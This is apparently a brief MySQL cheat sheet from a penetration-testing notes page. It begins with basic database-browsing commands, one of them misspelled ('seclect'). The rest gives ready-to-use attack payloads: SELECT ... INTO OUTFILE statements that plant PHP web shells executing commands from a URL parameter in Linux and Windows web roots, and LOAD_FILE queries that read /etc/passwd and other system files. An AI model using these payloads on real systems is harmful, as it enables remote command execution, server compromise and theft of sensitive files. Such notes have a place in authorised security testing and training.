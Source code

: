 ### View Databases

```bash
show databases;
```

### Use Database

```bash
use <database>;
```

### View Tables

```bash
show tables;
```

### View Contents of Table

```bash
seclect * from <table_name>;
```

### Write file to system

Linux:

```bash
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Windows:

```bash
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\cmd.php";
```

### Read file on system

```bash
SELECT LOAD_FILE("/etc/passwd");
SELECT LOAD_FILE("C:\\xampp\\htdocs\\cmd.php");
```